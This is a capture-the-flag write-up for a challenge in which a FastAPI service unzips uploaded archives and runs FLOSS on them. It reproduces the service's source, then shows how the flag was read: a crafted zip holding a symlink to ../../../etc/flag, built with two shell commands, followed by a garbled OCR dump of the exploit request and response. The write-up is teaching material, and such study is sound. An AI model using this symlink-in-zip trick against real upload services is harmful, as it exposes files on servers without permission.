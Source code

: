 # 🎓Throw your malware here!
> FLOSS is the superior "strings", so I've decided to run it as a SAAS! Enough with the obfuscated code that the pigeon keeps throwing at me!

> In fact, I decided to handle all types of files, even non-PE files and password-protected zip files!

> Flag is located at `/etc/flag`

## About the Challenge
We were given a source code called `app.py` (You can download the file [here](dist_throw-your-malware-here_0140c3bcedfeee2909f426086fbab6fa4c777229.zip)) and here is the content of the file

```python
from typing import Optional
import zipfile
import random
import shutil
import string
import subprocess
from pathlib import Path

import pefile
from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import JSONResponse


FILE_CACHE = Path("/app/cache")
FLOSS_PATH = Path("/usr/local/bin/floss")

app = FastAPI()


def get_random_string(length: int = 16) -> str:
    # choose from all lowercase letter
    letters = string.ascii_lowercase
    return "".join(random.choice(letters) for _ in range(length))


@app.on_event("startup")
def startup():
    # Ensure caches exist
    if not FILE_CACHE.is_dir():
        FILE_CACHE.mkdir()


def run_floss(target: Path) -> str:
    args = [str(target), "--json"]
    try:
        pefile.PE(name=str(target))
    except pefile.PEFormatError:
        args.extend(("--only", "static"))
    output = subprocess.check_output((FLOSS_PATH, *args))
    return output.decode()


@app.post("/floss")
def floss_endpoint(sample: UploadFile, password: Optional[str]) -> JSONResponse:
    random_path = get_random_string()
    while (target_path := FILE_CACHE / random_path).exists():
        random_path = get_random_string()
    with target_path.open("wb+") as f:
        shutil.copyfileobj(sample.file, f)
    is_zipfile = zipfile.is_zipfile(target_path)
    if is_zipfile:
        with zipfile.ZipFile(target_path) as f:
            # No zip bombs!
            file_size_sum = sum(data.file_size for data in f.filelist)
            compressed_size_sum = sum(data.compress_size for data in f.filelist)
            if (file_size_sum / compressed_size_sum > 10):
                raise HTTPException(413, "Zip Bomb Detected")

            zipobjects = f.infolist()
            if any(zipobject.file_size > 50000 for zipobject in zipobjects):
                raise HTTPException(418, "I'm a teapot!")
            files = f.namelist()
        args = ["unzip"]
        if password:
            args.extend(("-P", password))
        args.extend((str(target_path), "-d", f"{FILE_CACHE / random_path}-zip"))
        a = subprocess.run(args)
        if a.returncode != 0:
            raise HTTPException(422, "Invalid password!")
        targets = [FILE_CACHE / f"{random_path}-zip" / file for file in files]
    else:
        targets = [target_path]
    results = [run_floss(target) for target in targets]
    return JSONResponse(
        {target.name: result for target, result in zip(targets, results)}
        if is_zipfile
        else results[0]
    )
```

The program accepts a file upload via the /floss endpoint and analyzes the uploaded file using FLOSS. It first saves the uploaded file to a cache directory. If the uploaded file is a ZIP archive, it checks for zip bomb and teapot conditions to prevent malicious or large files from being processed.

If the file is a ZIP archive, it extracts its contents to a separate directory in the cache. Otherwise, it directly analyzes the uploaded file. For each file (or extracted file in the case of a ZIP archive), it runs the run_floss() function, which invokes FLOSS to perform the analysis. The output is returned as a JSON response.

## How to Solve?
To solve this chall, im using this [website](https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249) as a reference. We can read the content of `/etc/flag` by using `zipslip` vulnerability. Here is the command I used

```
ln -s ../../../etc/flag awikwok.link
zip -P password --symlink awikwok.zip awikwok.link
```

And then upload to the website to obtain the flag


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
/floss?password-passuord HTTP/1.1
HTTP/1.1
200
Host
haluare
ueb
seet f
sg: 1337
dace:
Hon
Ju
2023
01:20:14
GIT
User-Agent
Hozilla/ 5
(Vindous
IT
10.0;
Vin64;
*64;
17:109
Serter
uicorn
Gecko/ZOlOO1ol
Firefor/114
content-
encth:
1104
Aecept
Cont
ent
type
applicat
on/json
ext /htpl
application/ xhtultxul
application/xnl
9=0.9 _
image/ avif_
inage/uebp
Lccept
Language-
en
US
en ;
zelda
link:
Accept
Enco
ding:
szip
deflace
analysis
enable_decoded_strings
false
enable
Content
Type
multipart
forn-data;
ack
scrings
false
enable_static_
strings
crue
enable
boundary
-44734808435805382171891629571
cight_scrings
false
ftnct
on5
analyzed
decoded_ser
Upgr ade
Insecure
Requests:
ings
analyzed
stacl_strings
analyzed
tight
SCri
Content
Lengch:
454
ngs
decoding
funct
on
scores
discoveredl
library
0} } ,
metadata
file_path
/ app / cache/ sb
44734806435805382171891629571
iqeuykusgouqae-zip/zelda
link-
imagebase
hin_lengeh
Content
Disposit_
on:
forn-data;
nae
sanple
filenane
rut ine
decoded_scrings
find
features
zelda
zip
0.0 ,
scack
strings
scart
date
"2023-06-12T01
Content
Type
applicat
on / *-z1p-compressed
20:15
6094472
scatic
strings
0009
ght_
strings
0.0 ,
Cotal
0009
"titisect
0 . 0}
"version
"32
15
PI
0-0 =
9783dd8€
strings
decoded_strings
16
BIV
ack
scrings
stacic_strings
[ {
encoding
ASCIIT
zelda_
lin-UT
rOdrOduxIuJ ( 9CO# _Oupdro:k_toaSph
'"offset
string
"Here
che
flag!  "} ,
encodin
DPFPK
ASCIIT
offset
17 ,
string
SEE ( 1
just
Janced
19
BIV
be lind
and
LLT
floss
veb
man}
encoding
20 Yizelda-linkUT OduxPKPq
SCII: "
"offset
75 ,
string'
1 "PIGEON POG! "}], 1 "cight
44734806435805382171891629571-
strings
[J } } n"
9-0
4-0
api]


```
SEE{i_just_wanted_to_be_kind_and_run_a_floss_web_api_man}
```